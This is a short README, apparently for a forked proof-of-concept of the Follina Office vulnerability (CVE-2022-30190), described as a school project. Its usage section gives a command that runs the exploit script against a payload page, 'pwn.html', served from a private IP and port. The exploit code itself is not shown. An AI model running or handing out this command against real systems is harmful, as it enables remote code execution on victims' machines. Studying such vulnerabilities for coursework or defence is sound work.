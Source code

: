 # NOTE
This repo was used for a school project!
All credits: https://github.com/ItsNee/Folina-CVE-2022-30190-POC

# USAGE
- Use Smartlearn.ch
- run python3 exploit.py -u "http://192.168.210.41:1337/pwn.html"